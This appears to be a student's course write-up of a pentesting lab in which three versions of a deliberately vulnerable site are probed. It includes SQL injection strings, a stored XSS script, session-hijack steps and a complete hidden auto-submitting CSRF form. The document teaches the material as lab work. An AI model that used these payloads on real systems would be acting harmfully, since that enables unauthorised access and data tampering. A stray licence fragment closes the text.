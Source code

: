 # Project 8 - Pentesting Live Targets

Time spent: **8** hours spent in total

> Objective: Identify vulnerabilities in three different versions of the Globitek website: blue, green, and red.

The six possible exploits are:
* Username Enumeration
* Insecure Direct Object Reference (IDOR)
* SQL Injection (SQLi)
* Cross-Site Scripting (XSS)
* Cross-Site Request Forgery (CSRF)
* Session Hijacking/Fixation

Each version of the site has been given two of the six vulnerabilities. (In other words, all six of the exploits should be assignable to one of the sites.)

## Blue

Vulnerability #1: SQL Injection
- [x] GIF Walkthrough:<img src='https://i.imgur.com/xmFZg6V.gif' title='SQL injection' width='' alt='SQL injection' />
Using sqlmap in Kali Linux, I found the id perimeter of blue site to be vulnerable to injection and it recommended some payloads.
I tried using id=' OR 1=1--' which just redirected me to salesperson main info page. Then I decided to use a different time based
injection: id = ' OR SLEEP(10)=0--' to cause a delay when I do a query.

Vulnerability #2: Session Hijacking/Fixation
- [x] GIF Walkthrough:<img src='https://i.imgur.com/R8eYoUK.gif' title='Session Hijacking' width='' alt='Session Hijacking' />
In the right side I opened blue site in google chrome and on the left its open in Mozilla Firefox. I logged in Google Chrome and
found the session id by using the php script provided at public/hacktools/change_session_id.php domain. I used the session id from
authenticated Google Chrome site and turned on intercept mode in Burp. Then I forwarded the authenticated session id when I clicked on
login in Mozilla Firefox blue site to gain access.

## Green

Vulnerability #1: Username enumeration
- [x] GIF Walkthrough:<img src='https://i.imgur.com/pzFQLrs.gif' title='Username enumeration' width='' alt='Username enumeration' />
I noticed for the green targets there was a difference when I used a legitimate username name vs
using some arbitrary fake username and tried to login using incorrect details, the legit username
shows a bold "Log in was unsuccessful" compared to fake username login attempt. Using inspect element
it can be seen the login unsuccessful prompt are shown by two different classes: failed and failure with
failure class being used for legitimate username.

Vulnerability #2: Cross-Site Scripting
- [x] GIF Walkthrough:<img src='https://i.imgur.com/So7gsZa.gif' title='Cross-Site Scripting' width='' alt='Cross-Site Scripting' />
I submitted the example script in the comment section: <script>alert('Gurmehar found the XSS!');</script> for all sites
Green site was the only one that executed the stored XSS attack.


## Red

Vulnerability #1: Insecure Direct Object Reference
- [x] GIF Walkthrough:<img src='https://i.imgur.com/7HjxGfv.gif' title='Insecure Direct Object Reference' width='' alt='Insecure Direct Object Reference' />
All the sites have organized the salesperson by id in url and in the Red target the last salesperson id is supposed to be 9.
However, if you try an id number higher than that it should technically be invalid as that employee isn't listed on website
but in this case you can see employee details who aren't listed under the salesperson tab.

Vulnerability #2: Cross-Site Request Forgery (CSRF)
- [x] GIF Walkthrough:<img src='https://i.imgur.com/0BejN3o.gif' title='Cross-Site Request Forgery' width='' alt='Cross-Site Request Forgery' />
For this exploit, I submitted a fake form executing a post request and changing the salesperson info. The code is shown Below
which was based on the bank_form CSRF example from Week 4. The code basically submits the request on loading of the page and hides
the result in hidden iframe.
```html
<html>

<head>
  <title>CSRF Form</title>
</head>

<body onload="document.really_cool_form.submit()">
  <form action='https://35.194.21.71/red/public/staff/salespeople/edit.php?id=7' method="POST" name="really_cool_form" style="display: none;" target="hidden_results">
    <input type="text" name="first_name" value="YOU_GOT_HACKED" />
    <input type="text" name="last_name" value="BY_GURMEHAR" />
    <input type="text" name="phone" value="555-555-5555" />
    <input type="text" name="email" value="fake@email.com" />

  </form>
  <iframe name="hidden_results" style="display: none;"></iframe>
</body>

</html>
```

## Notes

Describe any challenges encountered while doing the work
Overall this was a good review of all the things we have learned so far. The main challenge was just finding out which site was exploitable
but as I went down the list it became fairly straightforward. I did had to research other forms of SQL injection to see immediate difference.
CSRF exploit was my favorite to do because it required some external script to exploit. This was a fun assignment.
governing permissions and
limitations under the License.
